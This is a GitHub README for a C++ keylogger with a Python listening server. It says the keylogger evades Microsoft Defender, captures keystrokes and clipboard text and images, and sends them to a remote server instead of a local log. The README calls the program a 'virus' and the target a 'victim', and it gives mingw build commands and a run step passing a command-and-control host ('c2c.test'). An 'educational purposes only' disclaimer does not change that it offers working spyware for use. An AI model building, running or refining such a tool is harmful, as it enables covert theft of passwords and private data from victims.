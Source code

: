 # A simple Keylogger bypass Microsoft Window Defender

A simple Keylogger written in C++, and listening server written in Python.
Keylogger will capture any press keystroke (note that I just concentrate on key which can display):
- Normal key: a,b,c,1,2,3,...
- Some special char like , . ; { } ` ....
- Characters cannot be displayed like [ENTER] [ALT] [BACKSPACE]
and also capture the latest record on clipboard comprising of images or text.
All data will be saved on memory and delivered to the remote-specified machine instead of creating log file on the local victim machine.
It is not detected by MDE (tested on 8/20/2024 : Windows 10 22H2 latest)
## I. Installation

- ***Mingw***:
    *note that I tried to use Microsoft Visual Studio to build exe but I got a lot of errors with lib and header files, you can use MVS if you want, or install Mingw like me*

```bash
sudo apt-get update
sudo apt-get install mingw-w64 -y
```
## II. Usage
### 1. Build virus
***Note:*** *Inspect source in virus.cpp and change sourceip and port to your remote server that hosts server.py (receive shell from victim) then build it using mingw*
```bash
x86_64-w64-mingw32-g++ -o logger.exe mainkeylogger.cpp -static-libgcc -static-libstdc++ -luser32 -lwininet
.\logger.exe
```
***Update*** *I change remote server to dynamic, meaning you can add it through args (not hard-code anymore but it doesn't hide the console).*
```bash
x86_64-w64-mingw32-g++ -o logger_arg.exe mainkeylogger_arg.cpp -static-libgcc -static-libstdc++ -luser32 -lwininet
.\logger_arg.exe c2c.test
```

### 2. Run listening server
***Note:*** *This server.py will listen incomming POST request, log any data to log folder*
```python
python3 server.py
```

**Server**:

![plot](./images/server.png)

**Client**

![plot](./images/client.png)

> [!CAUTION]
> There is no clean code, no penetration test provided, this repo is for educational purposes only. Do not use for illegal purposes. I'm never responsible for illegal use. Educational purpose only!
## Support me (optional)
If you find it useful, you can support me with a cup of coffee.
[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2123O0D)
